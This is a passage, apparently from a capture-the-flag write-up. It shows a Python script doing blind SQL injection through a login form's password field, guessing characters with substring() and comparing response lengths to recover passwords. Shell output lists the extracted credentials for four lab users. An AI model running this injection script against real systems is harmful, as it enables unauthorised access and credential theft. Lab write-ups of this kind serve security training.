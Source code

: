 ```python

                #Set up data to be sent in request. POST with username; SQL inject in password
                data = {'Username': '', 'Password': "' or Username='" + user + "' and substring(Password," + str(i) + ",1)='" + char + ""}
                request = requests.post(url, data=data, proxies={'http':proxy_url})
                #test to see if response shows valid guess
                if len(request.text) != req_len:
                    found = True
                    break
            if not found:
               break

            print('{0}'.format(char), sep="", end="", flush=True)
            password += char

        #print final password, stripping off the extra single quotes    
        print('\nUse credentials: {0}:{1}'.format(user,password).rstrip('\''))

pass_brute(userlist)
```

For some reason sending the username in the username field caused my SQL injection to not work, however sending it as SQL parameter in the password field worked...strange, but I got it to work

```text
┌──(zweilos㉿kali)-[~]
└─$ python3 pass_brute.py

Getting password for user: rita
[+] Enumerating password: password01!''''''''''''
Use credentials: rita:password01!

Getting password for user: jim
[+] Enumerating password: stairwaytoheaven'''''''
Use credentials: jim:stairwaytoheaven

Getting password for user: bryan
[+] Enumerating password: ireallyl0vebubblegum!!!
Use credentials: bryan:ireallyl0vebubblegum!!!

Getting password for user: sarah
[+] Enumerating password: sarah4evah'''''''''''''
Use credentials: sarah:sarah4evah
```

For some reason I had to strip off extra `'` characters from the passwords. I suppose the server was returning the same message for a '\`' as it was for a valid character. I could have done a check and removed tests for a single quote, but if the password contained that character I would have missed it, so I left them on and stripped them at the end.

## Initial Foothold


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>